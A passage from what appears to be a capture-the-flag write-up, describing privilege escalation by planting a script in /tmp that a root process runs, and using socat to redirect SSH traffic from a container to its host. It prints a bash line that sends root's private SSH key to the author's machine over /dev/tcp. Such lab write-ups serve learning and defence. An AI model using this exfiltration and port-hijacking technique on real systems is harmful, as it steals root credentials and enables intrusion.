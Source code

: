 I checked the `/tmp` directory to see what this script did, but there was no script there.  This seemed like a perfect opportunity for me to supply one for them.  I made a script to copy `root`'s SSH key to my machine, since the process was running in the context of root \(verified by checking `ps aux` again\).  

```bash
#! /bin/bash

cat /root/.ssh/id_rsa > /dev/tcp/10.10.15.98/9099
```

My bash script was very simple, and just copied `root`'s SSH to my machine using TCP sockets

Since the process that was running the `clear.sh` script on the machine was owned by root, and since it was trying to run by connecting to port 22 on the container, I figured I needed a way to redirect that connection back to the local machine since there was no script named `clear.sh` there in the `/tmp` directory. This would give me the perfect opportunity to supply one for them for my own purposes.  After doing some research on how to redirect ports without using SSH, I found the easiest way was by using `socat`.  

* [https://stackoverflow.com/questions/34791674/socat-port-forwarding-for-https](https://stackoverflow.com/questions/34791674/socat-port-forwarding-for-https)

```text
root@20e3289bc183:/tmp# ./socat -d TCP-LISTEN:22,fork,reuseaddr TCP:172.17.0.1:22
2020/12/19 23:13:20 socat[1919] E bind(5, {AF=2 0.0.0.0:22}, 16): Address already in use
```

Using `socat` I tried to redirect port 22 traffic from the container to the host so it would execute but the port was already in use \(by SSH\).

```text
root@20e3289bc183:~# service ssh stop
 * Stopping OpenBSD Secure Shell server sshd                                                     [ OK ]
```

Next, I stopped the SSH service to clear the port.

```text
solr@laser:/dev/shm$ ssh root@172.18.0.2
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@    WARNING: REMOTE HOST IDENTIFICATION HAS CHANGED!     @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
IT IS POSSIBLE THAT SOMEONE IS DOING SOMETHING NASTY!
Someone could be eavesdropping on you right now (man-in-the-middle attack)!
It is also possible that a host key has just been changed.
The fingerprint for the ECDSA key sent by the remote host is
SHA256:7+5qUqmyILv7QKrQXPArj5uYqJwwe7mpUbzD/7cl44E.
Please contact your system administrator.
Add correct host key in /var/solr/.ssh/known_hosts to get rid of this message.
Offending ECDSA key in /var/solr/.ssh/known_hosts:1
  remove with:
  ssh-keygen -f "/var/solr/.ssh/known_hosts" -R "172.18.0.2"
Password authentication is disabled to avoid man-in-the-middle attacks.
Keyboard-interactive authentication is disabled to avoid man-in-the-middle attacks.
root@172.18.0.2: Permission denied (publickey,password).
```
